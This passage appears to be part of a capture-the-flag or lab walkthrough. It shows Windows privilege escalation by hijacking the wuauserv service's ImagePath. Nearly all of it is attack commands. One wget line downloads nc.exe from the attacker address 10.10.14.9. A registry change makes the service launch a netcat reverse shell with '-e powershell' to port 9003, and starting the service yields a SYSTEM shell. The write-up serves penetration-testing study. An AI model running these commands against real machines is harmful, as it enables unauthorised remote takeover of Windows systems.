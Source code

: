 The _ImagePath_ property will be changed to an executable that will execute a reverse shell.

Uploading **Netcat for Windows** onto the box:
```
wget 10.10.14.9/nc.exe -o nc.exe
```

Changing the _ImagePath_ to the path of `nc.exe`:
```
Set-Itemproperty -Path wuauserv -Name ImagePath -Value "C:\Windows\System32\Spool\Drivers\Color\nc.exe 10.10.14.9 9003 -e powershell"
```

Starting the service:
```
Start-Service wuauserv
```

After starting the service, the listener on my IP and port 9003 will start a reverse shell as _NT Authority\SYSTEM_!
